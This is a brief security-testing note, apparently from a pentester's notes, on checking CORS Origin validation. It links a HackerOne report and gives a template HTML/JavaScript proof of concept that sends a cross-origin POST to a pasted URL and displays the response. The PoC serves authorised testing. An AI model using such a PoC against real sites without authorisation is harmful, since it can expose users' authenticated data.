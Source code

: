 # Cors-Origin

Inspect if application checks that the value of the "Origin" HTTP header is consistent with the value of the remote IP address/Host of the sender of the incoming HTTP request.


```
SENSITIVE_METHODS = ('PUT', 'DELETE')
COMMON_METHODS = ('POST', 'GET', 'OPTIONS', 'PUT', 'DELETE')
```

Good example from H1
https://hackerone.com/reports/235200

### Post based CORS Misconfiguration PoC

```
<html>
<script>
var http = new XMLHttpRequest();
var url = 'Url';//Paste here Url
var params = 'PostData';//Paste here POST data
http.open('POST', url, true);

//Send the proper header information along with the request
http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');

http.onreadystatechange = function() {//Call a function when the state changes.
    if(http.readyState == 4 && http.status == 200) {
        alert(http.responseText);
    }
}
http.send(params);

</script>
</html>
```
